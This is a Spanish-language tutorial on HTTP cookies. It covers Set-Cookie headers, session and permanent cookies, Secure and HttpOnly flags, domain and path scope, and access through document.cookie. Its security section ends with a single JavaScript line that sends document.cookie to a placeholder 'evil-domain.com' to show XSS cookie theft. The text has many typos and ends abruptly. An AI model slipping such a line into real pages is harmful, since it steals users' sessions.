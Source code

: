 # **HTTP COOKIE**

Una **http cookie** (ya sea referido a web cookie, cookie en navegado,etc.) es una pequeño fragmento de datos que un servidor envía al navegador web de cualquier usuario, que puede almacenarlo y devolverlo con la siguiente solicitud al mismo servidor.
El uso de cookies en programacion tiene como objetivo saber si, dos solicitudes procedían del mismo ordenador.

 Las cookies se utiliza principalmente para tres propositos:

 - Gestion de sesesione( inicios de sesion de usuarios, carritos de compras).
 - Personalización (preferencias del usuario).
 - Seguimiento (análisis del comportamiento del usuario).

Las cookies también se han utilizado para el almacenamiento general del lado del cliente. Anteriormente era la única forma para el almacenamiento del lado del cliente, ya no es el caso hoy en día, donde los navegadores web son capaces de utilizar varias API de almacenamiento. Dado que las cookies se envían junto con cada solicitud, puede ser una carga de rendimiento adicional (especialmente para la web móvil). Las API nuevas a considerar para el almacenamiento local son la API de almacenamiento Web (localStorage y sessionStorage) y IndexedDB.


## Ceacion de cookies.

Al recibir una petición  HTTP se puedeenviar un encabezado cookie con la respuesta. La cookie normamente e almacenaen el navegador y, posteriormente, se envía el valor juntocon cadasolicitud hechaal mismo servidoque el contenido del encabezado de la Cookie.

#### Las Set-Cookie y las Cookie headers.

Las Set-Cookie HTTP son usadas para enviar cookies desde el servidor a el agente de usuario.

Una forma sencilla de configurar una cookie puede ser de la siguiente manera:

`
Set-Cookie: <cookie-name>=<cookie-value>
`

Aquí, el servidor le dice al cliente que almacene una cookie (por ejemplo, aplicaciones como PHP, Node.js, Python o Ruby on Rails).
La respuesta enviada al navegador contendrá el encabezado Set-Cookie y el navegador almacena la cookie.


#### Session cookies

La cookie creada anteriormente es una session cookie: se elminará cuando el cliente se cierre. No especifican caducidad máxima.
Algunos navegadores web tiene habilitada la restauración de sesiones, lo que provoca que estas cookies temporales sean permanentes, como si el navegador nunca se cerrase.

#### Permanent cookies

Estas cookies no expiran cuando el navegador cieere , sino  que tienen una fecha especificada.

`
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
`

#### Secure and HttpOnly cookies

Una secure cookies sólo se enviará al servidor cuando se realice una solicitud usando SSL y el protocilo HTTP.
Sin embargo, tengan en cuenta que la información privada nunca debe enviarse en cookies HTTP ya que todo el protocolo es inseguro y este no le ofrecerá ningún  cifrado o seguridad adicional.

Para evitar ataques de secuencias de comandos entre sitios, las cookies sólo de HTTP no son accesibles a través de javascript a través de la propiedad Document.cookie, las API XMLHttpRequest y Request.


`
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
`

#### Ámbito de cookies


Las directivas de dominio y ruta definen el ámbito de la cookie, es decir, el conjunto de URL a las que se deben enviar las cookies.

El dominio especifica los hosts a los que se enviará la cookie. Si no se especifica, el valor predeterminado es la parte del host de la ubicación del documento actual (pero sin incluir subdominios). Si se especifica un dominio, los subdominios siempre se incluyen.

Si se establece Domain = mozilla.org, las cookies se incluyen en subdominios como developer.mozilla.org.

Path indica una ruta de acceso de URL que debe existir en el recurso solicitado antes de enviar el encabezado de Cookie. El carácter% x2F ("/") se interpreta como un separador de directorios y los subdirectorios se emparejarán también.

Si se establece Path = / docs, todos estos caminos coincidirán:


- "/docs",
- "/docs/Web/",
- "docs/Web/HTTP"

#### Accediendo desde JavaScript usando Document.cookies


````.js
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
````


### Seguridad

#### Session hijacking y XSS

Las cookies se utilizan a menudo en la aplicación web ara identificar a un usuario y su sesión autenticada. Robar una cookie puede llevar a robar la sesion de algún usuario autenticado.

`
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
`
